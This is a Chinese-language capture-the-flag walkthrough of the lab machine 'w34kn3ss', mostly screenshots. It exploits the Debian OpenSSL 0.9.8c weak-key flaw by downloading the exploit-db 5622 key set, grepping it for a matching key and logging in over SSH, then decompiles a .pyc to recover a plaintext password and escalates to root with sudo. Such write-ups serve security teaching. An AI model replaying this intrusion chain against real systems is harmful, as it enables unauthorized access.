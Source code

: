 # w34kn3ss

![image-20200621221821981](assets/w34kn3ss.assets/image-20200621221821981.png)

![image-20200621221847798](assets/w34kn3ss.assets/image-20200621221847798.png)

根据只要出现名称就要加入hosts并扫描目录的原则将weakness.jth加入hosts，并浏览

![image-20200621222418120](assets/w34kn3ss.assets/image-20200621222418120.png)

打目录

![image-20200621222523843](assets/w34kn3ss.assets/image-20200621222523843.png)

![image-20200621222556792](assets/w34kn3ss.assets/image-20200621222556792.png)

![image-20200621222644741](assets/w34kn3ss.assets/image-20200621222644741.png)

查看文件

![image-20200621222709935](assets/w34kn3ss.assets/image-20200621222709935.png)

这是个很明确的提示`openssl 0.9.8c-1`

以及一个已知的公钥

![image-20200621224141943](assets/w34kn3ss.assets/image-20200621224141943.png)

```bash
ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEApC39uhie9gZahjiiMo+k8DOqKLujcZMN1bESzSLT8H5jRGj8n1FFqjJw27Nu5JYTI73Szhg/uoeMOfECHNzGj7GtoMqwh38clgVjQ7Qzb47/kguAeWMUcUHrCBz9KsN+7eNTb5cfu0O0QgY+DoLxuwfVufRVNcvaNyo0VS1dAJWgDnskJJRD+46RlkUyVNhwegA0QRj9Salmpssp+z5wq7KBPL1S982QwkdhyvKg3dMy29j/C5sIIqM/mlqilhuidwo1ozjQlU2+yAVo5XrWDo0qVzzxsnTxB5JAfF7ifoDZp2yczZg+ZavtmfItQt1Vac1vSuBPCpTqkjE/4Iklgw== root@targetcluster
```

如果直接使用这个key登录仍然是需要密码的

![image-20200621225204829](assets/w34kn3ss.assets/image-20200621225204829.png)

我们来尝试利用漏洞

![image-20200621222939225](assets/w34kn3ss.assets/image-20200621222939225.png)

查看漏洞利用文件发现介绍

![image-20200621223144518](assets/w34kn3ss.assets/image-20200621223144518.png)

利用提供的下载链接https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/5622.tar.bz2

将需要的文件下载到本地工作目录

解压后将会自动生产需要的rsa文件夹

![image-20200621223628637](assets/w34kn3ss.assets/image-20200621223628637.png)

现在我们要利用已知的存放在服务器上的公钥mykey.pub找到漏洞利用中已经可以用来进攻的文件编号。

进入到rsa/2048/目录下，利用grep找出mykey对应的公钥文件，存在

```bash
grep -r -l "AAAAB3NzaC1yc2EAAAABIwAAAQEApC39uhie9gZahjiiMo+k8DOqKLujcZMN1bESzSLT8H5jRGj8n1FFqjJw27Nu5JYTI73Szhg/uoeMOfECHNzGj7GtoMqwh38clgVjQ7Qzb47/kguAeWMUcUHrCBz9KsN+7eNTb5cfu0O0QgY+DoLxuwfVufRVNcvaNyo0VS1dAJWgDnskJJRD+46RlkUyVNhwegA0QRj9Salmpssp+z5wq7KBPL1S982QwkdhyvKg3dMy29j/C5sIIqM/mlqilhuidwo1ozjQlU2+yAVo5XrWDo0qVzzxsnTxB5JAfF7ifoDZp2yczZg+ZavtmfItQt1Vac1vSuBPCpTqkjE/4Iklgw=="		#mykey中的内容
```

![image-20200621224745791](assets/w34kn3ss.assets/image-20200621224745791.png)

```bash
4161de56829de2fe64b9055711f531c1-2537.pub
```

这个文件名可以帮我们暴力掉ssh从而使ssh不会再询问密码。

```bash
ssh -i 4161de56829de2fe64b9055711f531c1-2537 n30@10.10.10.142
```

![image-20200621225632400](assets/w34kn3ss.assets/image-20200621225632400.png)

发现一个二进制文件

![image-20200621230601206](assets/w34kn3ss.assets/image-20200621230601206.png)

传回kali，发现是已编译的py

![image-20200621230748673](assets/w34kn3ss.assets/image-20200621230748673.png)

先改名成.pyc。然后使用uncompyle6反编译

![image-20200621231605962](assets/w34kn3ss.assets/image-20200621231605962.png)

看代码应该是将以下的信息推进命令行

```bash
n30:dMASDNB!!#B!#!#33
```

尝试使用dMASDNB!!#B!#!#33作为密码 ,执行sudo -l

![image-20200621231836040](assets/w34kn3ss.assets/image-20200621231836040.png)

成功，并且n30用户能直接root

![image-20200621231950136](assets/w34kn3ss.assets/image-20200621231950136.png)